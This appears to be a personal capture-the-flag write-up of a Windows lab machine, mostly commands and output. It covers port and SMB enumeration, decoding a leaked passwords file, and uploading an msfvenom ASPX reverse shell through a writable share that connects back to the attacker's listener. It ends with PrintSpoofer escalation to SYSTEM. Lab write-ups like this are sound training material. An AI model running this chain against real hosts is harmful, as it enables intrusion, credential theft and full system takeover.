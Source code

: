 # Relevant

## Brief

IP: 10.10.9.49
Windows System
Webservice on port 80

Bob - !P@$$W0rD!123 > has access via RPC
Bill - Juw4nnaM4n420696969!$$$ > Fake user?

## Scanning the system

### nmap

>> nmap -sV -n -p- -oN nmap.out $TARGET                    
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-22 20:06 CET
Nmap scan report for 10.10.9.49
Host is up (0.038s latency).
Not shown: 65527 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
49663/tcp open  http          Microsoft IIS httpd 10.0
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 174.65 seconds

### smb

>> nmap --script smb-enum-shares.nse -p445 10.10.9.49                                     
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-22 20:11 CET
Nmap scan report for 10.10.9.49
Host is up (0.039s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.9.49\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.9.49\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.9.49\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: <none>
|     Current user access: READ/WRITE
|   \\10.10.9.49\nt4wrksv: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: <none>
|_    Current user access: READ/WRITE

Nmap done: 1 IP address (1 host up) scanned in 30.92 seconds

#### nt4wrksv
>> smbclient //10.10.9.49/nt4wrksv -U guest
Enter WORKGROUP\guest's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Nov 22 20:11:30 2020
  ..                                  D        0  Sun Nov 22 20:11:30 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020

                7735807 blocks of size 4096. 4950110 blocks available
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0,6 KiloBytes/sec) (average 0,6 KiloBytes/sec)
smb: \> exit
                                                                                                                                                                                                   
┌──(niknitro㉿kali)-[~/thm/relevant]
└─$ cat passwords.txt 
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk          

Which means;
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$

### RPC
rpcclient $> srvinfo
        10.10.9.49     Wk Sv NT SNT         
        platform_id     :       500
        os version      :       10.0
        server type     :       0x9003


rpcclient $> lookupnames administrators
administrators S-1-5-32-544 (Local Group: 4)
rpcclient $> lookupnames administrator
administrator S-1-5-21-3981879597-1135670737-2718083060-500 (User: 1)
rpcclient $> lookupnames Bill
result was NT_STATUS_NONE_MAPPED
rpcclient $> lookupnames Bob
Bob S-1-5-21-3981879597-1135670737-2718083060-1002 (User: 1)

                                  
                                           
### rdp               

rdesktop -u Bob -p - -k pt -g 1440x900 -T "MY REMOTE SERVER" -N -a 16 -z -xl -r clipboard:CLIPBOARD -r disk:SHARE_NAME_ON_REMOTE=C:\temp 10.10.8.187 
ERROR :(


### webservices

└─$ dirb http://10.10.9.49:49663 custom.txt                                                  
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Nov 22 20:51:18 2020
URL_BASE: http://10.10.9.49:49663/
WORDLIST_FILES: custom.txt

-----------------

GENERATED WORDS: 25758                                                            

---- Scanning URL: http://10.10.9.49:49663/ ----
==> DIRECTORY: http://10.10.9.49:49663/aspnet_client/
==> DIRECTORY: http://10.10.9.49:49663/nt4wrksv/     
                                                                                                                                                                                                  
---- Entering directory: http://10.10.9.49:49663/aspnet_client/ ----
==> DIRECTORY: http://10.10.9.49:49663/aspnet_client/system_web/                          
---- Entering directory: http://10.10.9.49:49663/aspnet_client/system_web/ ----
---- Entering directory: http://10.10.9.49:49663/nt4wrksv/ ----                                                                                              

## Exploiting the system

┌──(niknitro㉿kali)-[~/thm/relevant]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.186.161 LPORT=8888 -f aspx -o shell.aspx                                                      1 ⨯
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3416 bytes
Saved as: shell.aspx
                                   
┌──(niknitro㉿kali)-[~/thm/relevant]
└─$ smbclient //10.10.8.187/nt4wrksv
Enter WORKGROUP\niknitro's password: 
Try "help" to get a list of possible commands.
smb: \> put shell.aspx
putting file shell.aspx as \shell.aspx (30,3 kb/s) (average 1,5 kb/s)

                                                                                                                        
┌──(niknitro㉿kali)-[~/thm/relevant]
└─$ nc -nlvp 8888                                                                                
listening on [any] 8888 ...
connect to [10.9.186.161] from (UNKNOWN) [10.10.8.187] 49884
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool


### Getting shell

PS C:\inetpub> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled


  I want to start things off with this quote from @decoder_it: “if you have SeAssignPrimaryToken or SeImpersonate privilege, you are SYSTEM”.
https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/

Exploit: https://github.com/itm4n/PrintSpoofer



PS C:\inetpub\wwwroot\nt4wrksv> .\PrintSpoofer64.exe -i -c cmd
.\PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system



         